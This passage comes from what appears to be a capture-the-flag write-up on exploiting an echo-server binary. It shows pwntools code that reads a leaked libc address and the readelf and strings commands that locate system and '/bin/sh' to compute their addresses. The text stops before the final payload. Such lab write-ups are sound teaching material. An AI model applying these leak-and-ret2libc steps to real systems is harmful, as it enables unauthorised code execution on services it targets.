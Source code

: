 ### 6. Taking advantage of the memory leak

#### Receiving the leaked address

To skip over the first initial output lines and reach the actual leaked value, we add calls to `p.recvline()`:

```python
p.recvline()  # skip "WeLcOmE tO My EcHo SeRvEr!"
p.recvline()  # skip input "AAAAAAAAAAAAA"
leak = p.recvline()
log.info(f"{hex(leak)=}")  # use log.info() for a clear output
```
![running](images/image-8.png)<br>
*Figure 6: Leak variable stored in little-endian format.*


#### Unpacking the leak

We need to convert the string using `u64()` that expects exactly 8 bytes. If the string is shorter (e.g., 6 bytes), we pad it with null bytes using `.ljust(8, b"\x00")`.
 `strip()` removes the newline at the end of the stack.

```python
leak = u64(leak.strip().ljust(8, b"\x00"))
```
### 7. Finding the libc base address

We use readelf to extract function offsets from the libc binary, which allows us to calculate their real addresses in memory once we know the libc base address.

```bash
readelf -s ./libc.so.6 | grep setbuf 
```

Then compute:

```python
base_address_of_libc = leak - setbuf_offset
```

#### Find offsets for `system` and `/bin/sh`

```bash
readelf -s ./libc.so.6 | grep system
strings -tx libc.so.6 | grep /bin/sh
```

Then compute their actual addresses:
